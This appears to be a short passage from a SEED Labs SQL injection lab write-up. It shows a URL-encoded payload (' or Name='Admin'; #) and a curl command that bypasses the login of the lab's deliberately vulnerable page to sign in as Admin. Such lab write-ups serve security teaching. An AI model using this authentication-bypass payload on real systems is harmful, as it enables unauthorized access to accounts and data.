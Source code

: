 ### 4.3.2 SQL Injection Attack from Command Line

The same payload can be used in the command line as well. However, we need to URL-encode special characters:

- username = `%27%20or%20Name%3D%27Admin%27%3B%20%23`
- password = `123`

```sh
curl 'http://www.SeedLabSQLInjection.com/unsafe_home.php?username=%27%20or%20Name%3D%27Admin%27%3B%20%23&Password=123'
```

![](images/4-3-2.png)
